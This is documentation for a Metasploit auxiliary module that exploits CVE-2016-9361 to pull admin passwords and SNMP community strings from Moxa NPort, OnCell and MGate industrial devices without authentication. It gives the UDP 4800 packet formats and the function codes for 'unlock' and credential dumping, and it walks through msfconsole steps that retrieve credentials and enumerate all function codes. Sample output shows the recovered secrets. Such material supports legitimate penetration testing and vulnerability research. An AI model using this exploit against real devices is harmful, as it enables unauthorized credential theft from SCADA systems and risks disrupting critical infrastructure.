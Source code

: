 ## Vulnerable Application
  Many Moxa devices make use of a protocol that is vulnerable to unauthenticated credential retrieval via exploitation of CVE-2016-9361.  The service is known 
  to be used on Moxa devices in the NPort, OnCell, and MGate product lines.
  
  This module leverages CVE-2016-9361 to retrieve admin passwords and SNMP 
  community strings, as well as enumerate all possible function codes.  The supporting research and Metasploit module are the work of Patrick DeSantis 
  of Cisco Talos and K. Reid Wightman.

  The module has been tested on Moxa NPort 6250 firmware v1.13, MGate MB3170 
  firmware v2.5, and NPort 5110 firmware v2.6.

### The Moxa Protocol
  The Moxa protocol listens on 4800/UDP and will respond to broadcast or direct traffic.  The protocol is utilized by devices in several product lines and 
  Moxa applications in order to manage and configure network-deployed devices.

#### Discovery / Identify
  A discovery packet compels a Moxa device to respond to the sender with some
  basic device information that is needed for more advanced functions.  The 
  discovery data is 8 bytes in length and is the most basic example of the Moxa protocol.  It may be sent out as a broadcast (destination 255.255.255.255) or
  to an individual device.

  The discovery request contains the bytes:
```
  \x01\x00\x00\x08\x00\x00\x00\x00
```
  Where the function code (first byte) 0x01 is Moxa discovery/identify
  and the fourth byte is the length of the full data payload.

##### Discovery Response
  A valid response is 24 bytes, starts with 0x81, and contains the values
  0x00, 0x90, 0xe8 (the Moxa OIU) in bytes 14, 15, and 16.
  
  A response with a value of 0x04 for the second byte indicates that an invalid
  function code was used in the corresponding request.

  The response can be broken down as follows:

  * Byte 0x0 identifies the packet as a response to the request. The first byte of a response will always be the FC + 0x80 (the most significant bit of the byte is set to 1, so 0b00000001 becomes 0b10000001, or 0x81 as response to identify 0x01).
  * Bytes 0x1-0x2 are unknown, may be padding
  * Byte 0x3 is the length of the datagram payload
  * Bytes 0x4-0x7 are unknown, may be padding
  * Bytes 0x8-0x9 may be the product line in little endian.  For example, an NPort 6250 is part of the 6000 line, so bytes 8 and 9 will be 0x00 and 0x60 respectively.
  * Bytes 0xA-0xB are unknown but always seem to be 0x00 and 0x80 respectively.
  * Bytes 0xC-0xD are the model number in little endian, so the NPort 6250 is 0x50 and 0x62 respectively.
  * Bytes 0xE-0x13 are the MAC address of the device
  * Bytes 0x14-0x17 are the IP address

  Here's a sample response from an NPort 6250 with the default IP address of 192.168.127.254 and a MAC of 00:90:e8:15:1c:22:
```
  0000  81  00  00  18  00  00  00  00  00  60  00  80  50  62  00  90
  0010  e8  15  1c  22  c0  a8  7f  fe	 	 	 	 	 	 	 	 

  Model:  0x50 0x60 = 6250
  MAC:  00:90:e8:15:1c:22
  IP: c0:a8:7f:fe = 192.168.127.254
```
#### Other Functions
  The values from the response are then used to craft a new request with the below format:

  * Byte 0x0 is the function code
  * Bytes 0x1-0x2 are unknown, may be padding
  * Byte 0x3 is the length of the datagram payload
  * Bytes 0x4-0x7 are unknown, may be padding
  * Bytes 0x8-0x9 are the product line in little endian
  * Bytes 0xA-0xB are the unknown 0x00 0x80
  * Bytes 0xC-0xD is the model number in big endian
  * Bytes 0xE-0x13 is the MAC

  The module takes a valid response from discovery/ident and parses out the appropriate bytes to use as a "tail" which is appended to all subsequent requests.
```
  tail = response[8..24]
```
  The tail is then used as shown below:
```
  datagram = fc[func] + "\x00\x00\x14\x00\x00\x00\x00" + tail
```
  For all function codes other than identify (0x01), as long as the "tail" values in the request match those of the target, the device will execute the function defined by the value in byte 0x0.

##### Other Known and Suspected Function Codes
  Function codes fall in the range of 0x01 to 0x7F.

  The below function codes are included in the module, even if unused.  The intent is that the user may modify the module as needed to make use of other function codes.
```
  'ident'         =>  "\x01",   # identify device
  'name'          =>  "\x10",   # get the "server name" of the device
  'netstat'       =>  "\x14",   # network activity of the device
  'unlock1'       =>  "\x16",   # "unlock" some devices, including 5110, MGate
  'date_time'     =>  "\x1a",   # get the device date and time
  'time_server'   =>  "\x1b",   # get the time server of device
  'unlock2'       =>  "\x1e",   # "unlock" 6xxx series devices
  'snmp_read'     =>  "\x28",   # snmp community strings
  'pass'          =>  "\x29",   # admin password of some devices
  'all_creds'     =>  "\x2c",   # snmp comm strings and admin password of 6xxx
```

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/admin/scada/moxa_credentials_recovery```
  3. Do: ```set RHOST <target IP>```
  4. Do: ```run```
  5. Any found credentials will be stored in loot (set VERBOSE to TRUE to have credentials output to console)

## Options

  **RHOST**

  Target device.

  **FUNCTION**

  Either CREDS (default) or ENUM:
  * CREDS attempts to retrieve administrative password and SNMP community strings
  * ENUM will enumerate all function codes in the range 0x2..0x7F

## Scenarios
### Check
  The module implements a check function to determine if a target "speaks" the Moxa protocol.  It does this using the 0x01 function code and checking for a valid response of 24 bytes, starting with 0x81, and containing the values 0x00, 0x90, 0xe8 (the Moxa OIU) in bytes 14, 15, and 16.
```
if response[0] == "\x81" && response[14..16] == "\x00\x90\xe8" && response.length == 24
```
### Output Hexdump to Console
  To output hexdump responses to console:
  ```
  msf > use auxiliary/admin/scada/moxa_credentials_recovery
  msf auxiliary(moxa_credentials_recovery) > set RHOST <target IP>
  msf auxiliary(moxa_credentials_recovery) > set VERBOSE TRUE
  msf auxiliary(moxa_credentials_recovery) > run
  ```
  Sample verbose output:
  ```
  ... SNIP...
  [*] Response:
  90 00 00 3c 00 00 00 00 00 60 00 80 50 62 00 90    |...<.....`..Pb..|
  e8 15 1c 22 4e 50 36 32 35 30 5f 35 38 39 36 00    |..."NP6250_5896.|
  10 00 11 00 12 00 13 00 14 00 15 00 16 00 17 00    |................|
  18 00 19 00 1a 00 1b 00 1c 00 1d 00                |............|
  ... SNIP ...

  [*] snmp community retrieved: public_admin
  [*] snmp read/write community retrieved: private_admin
  [*] password retrieved: secretpassword
  ... SNIP ...
  ```

### Enumerate All Function Codes
  To enumerate ALL function codes :

  ```
  msf > use auxiliary/admin/scada/moxa_credentials_recovery
  msf auxiliary(moxa_credentials_recovery) > set RHOST <target IP>
  msf auxiliary(moxa_credentials_recovery) > set FUNCTION ENUM
  msf auxiliary(moxa_credentials_recovery) > run
  ```
  Sample ENUM output:
  ```
  ... SNIP...
  [*] Function Code: 14    |.|


  [*] Response:
  94 00 01 08 00 00 00 00 00 60 00 80 50 62 00 90    |.........`..Pb..|
  e8 15 1c 22 0f 00 00 00 00 00 00 00 00 00 00 00    |..."............|
  00 00 00 00 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 c0 12 00 00 ff 00 00 00 00 00 00 00 00 00    |................|
  00 00 a1 00 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 89 00 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 24 13 01 01 ff 00 00 00 00 00 00 00 00 00    |..$.............|
  00 00 b5 03 00 00 00 00 00 00 00 00 c0 a8 7f fe    |................|
  00 00 34 3a 01 01 00 00 00 00 00 00 c0 a8 7f fe    |..4:............|
  00 00 17 00 01 01 00 00 00 00 00 00 c0 a8 7f fe    |................|               
  ... SNIP ...

  ```
  Note that the above response is an example of the utility of using ENUM.  This function code (0x14) returns a netstat-type response.  Output similar to the above will be displayed for every function code that does not return 'invalid' (0x4).  This may also be useful for devices that do not "unlock" using the function codes supplied in this module; by running through all function codes in sequence, it is likely that an alternate "unlock" function will be sent prior to any function codes that request credentials.

  NOTE: As the protocol is undocumented and the purpose of a majority of the function codes are unknown, undesired results are possible.  Do NOT use on devices which are mission-critical!